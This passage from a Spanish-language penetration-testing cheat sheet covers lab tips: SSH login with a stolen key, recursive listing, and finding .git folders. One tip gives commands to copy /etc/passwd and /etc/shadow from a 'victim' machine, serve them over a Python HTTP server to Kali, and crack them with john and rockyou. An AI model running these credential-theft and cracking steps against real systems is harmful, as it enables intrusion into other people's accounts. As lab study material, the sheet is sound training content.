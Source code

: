 ssh -i id_rsa macarena@172.17.0.1


Nota: este ejemplo funciona también si subimos el id_rsa.pub y el authorized_keys en la carpeta tmp

-------------------------------------------------------------------------------

## 25.- Si tengo un monton de carpetas y quiero verlas todas en una sola salida con la ejecución de un solo comando

me paro dónde están todas las carpetas y ejecuto:

ls -Rl 

ls -Ra -> ver archivos ocultos

-------------------------------------------------------------------------------

## 26.- si hacemos id y vemos que pertenecemos al grupo shadow, entonces podemos sacar los hashes del /etc/shadow y el passwdcrackearlos.

ejecutamos:

en la máquina víctima

cat /etc/passwd > passwd
cat /etc/shadow > shadow

python3 -m http.server 8000


en kali

wget http://172.17.0.2:8000/passwd
wget http://172.17.0.2:8000/shadow

unshadow passwd shadow > hash

luego con john crackeamos:

john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=crypt

-------------------------------------------------------------------------------

## 27.- Git

comando para buscar .git:

find / -name '*.git' 2>/dev/null

ejemplo de respuesta:

/var/www/html/desarrollo/.git

entramos en : /var/www/html/desarrollo

logs del sistema registrados:

podemos ver los logs de git para ver el contenido de cada commit que nos insterese.. 
